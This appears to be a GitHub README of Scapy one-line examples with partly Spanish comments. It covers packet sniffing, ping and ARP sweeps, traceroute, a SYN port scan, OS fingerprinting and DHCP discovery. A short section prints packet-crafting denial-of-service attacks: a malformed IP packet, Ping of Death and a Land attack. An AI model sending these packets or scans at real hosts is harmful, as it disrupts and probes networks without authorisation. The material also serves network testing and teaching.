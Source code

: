 # uberscapy
Scapy docs, examples, scripts and other stuff

## Contents

docs - diffrent scapy docs

examples - examples for official Scapy usage and more


## Tutorial

Official Scapy usage tutorial is located [here](http://www.secdev.org/projects/scapy/doc/usage.html)

## One line examples

Sniffing:
 
Sniffing on eth0:
```python
    sniff(iface="eth0",prn=lambda x: x.summary())
    sniff(iface="eth0",prn=lambda x: x.show())
```
	
Formated sniff output
```python
    pkts = sniff(prn=lambda x:x.sprintf("{IP:%IP.src% -> %IP.dst%\n}{Raw:%Raw.load%\n}"))
```
	
Identify ports
```python
    a=sniff(filter="tcp and ( port 25 or port 110 )",prn=lambda x: x.sprintf("%IP.src%:%TCP.sport% -> %IP.dst%:%TCP.dport%  %2s,TCP.flags% : %TCP.payload%"))
```
 
Ping:
```python
	srloop(IP(dst="www.google.com/30")/TCP())
```
	//con icmp bloqueado
	```python
	ans,unans=sr( IP(dst="192.168.1.*")/TCP(dport=80,flags="S") )
	ans.summary( lambda(s,r) : r.sprintf("%IP.src% conteasta") )
    ```
    
	//Udp Ping
	```python
	ans,unans=sr( IP(dst="192.168.1.1-10")/UDP(dport=0) )
	ans.summary( lambda(s,r) : r.sprintf("%IP.src% contesta en udp") )
    ```
Arping:
```python
	ans,unans=srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst="192.168.1.0/24"),timeout=2)
	ans.summary(lambda (s,r): r.sprintf("%Ether.src% %ARP.psrc%") )
```

	//normal
	```python
	arping("192.168.1.1")
    ```
    
Traceroute:
```python
	traceroute(["www.google.com","www.ust.cl","www.terra.cl","www.microsoft.com"],maxttl=20)
	result, unans=_
	result.show()
	//graficar
	result.graph(type="ps", target="|lp")
	result.graph(target="> grafico.svg")
```

tarceroute avanzado:
```python
	//saltandose cortafuegos-por el dns
	ans,unans=sr(IP(dst="terra.cl",ttl=(1,10))/TCP(dport=53,flags="S"))
	ans.summary( lambda(s,r) : r.sprintf("%IP.src%\t{ICMP:%ICMP.type%}\t{TCP:%TCP.flags%}"))
```

Graficar tracert:
```python
	res,unans = traceroute(["www.ust.cl","www.santotomas.cl"],dport=[80,443],maxttl=20,retry=-2)
	//graficar
	res.graph(type="ps", target="|lp")
	res.graph(target="> grafico.svg")
```

scanner de puertos:
```python
	res,unans = sr( IP(dst="target")/TCP(flags="S", dport=(1,1024)) )
	//visualizando.
	res.nsummary( lfilter=lambda (s,r): (r.haslayer(TCP) and (r.getlayer(TCP).flags & 2)) )
```

OS fingerprint:
```python
	ans,unans=srloop(IP(dst="192.168.1.1")/TCP(dport=80,flags="S"))
```
un ataquesillo:
	paquete mal formado:
	
```python
    send(IP(dst="192.168.1.1", ihl=2, version=3)/ICMP())
```
	
Ping of death:
```python
    send( fragment(IP(dst="192.168.1.1")/ICMP()/("X"*60000)) )
```

Land attack (windows):
```python
    send(IP(src=target,dst=target)/TCP(sport=135,dport=135))
```
 
verificandos DHCP de la red:
```python
	conf.checkIPaddr = False
	fam,hw = get_if_raw_hwaddr(conf.iface)
	dhcp_discover = Ether(dst="ff:ff:ff:ff:ff:ff")/IP(src="0.0.0.0",dst="255.255.255.255")/UDP(sport=68,dport=67)/BOOTP(chaddr=hw)/DHCP(options=[("message-type","discover"),"end"])
	ans, unans = srp(dhcp_discover, multi=True)
	//mostando
	ans.display()
```

## Links

http://stackoverflow.com/questions/10818661/scapy-retrieving-rssi-from-wifi-packets

http://hackoftheday.securitytube.net/2013/04/wi-fi-ssid-sniffer-in-12-lines-of.html

http://hackoftheday.securitytube.net/2013/03/wi-fi-sniffer-in-10-lines-of-python.html

http://scholarworks.sjsu.edu/cgi/viewcontent.cgi?article=1191&context=etd_projects

http://pen-testing.sans.org/blog/2011/10/13/special-request-wireless-client-sniffing-with-scapy

http://raidersec.blogspot.com/2013/01/wireless-deauth-attack-using-aireplay.html

http://www.secdev.org/projects/scapy/portability.html
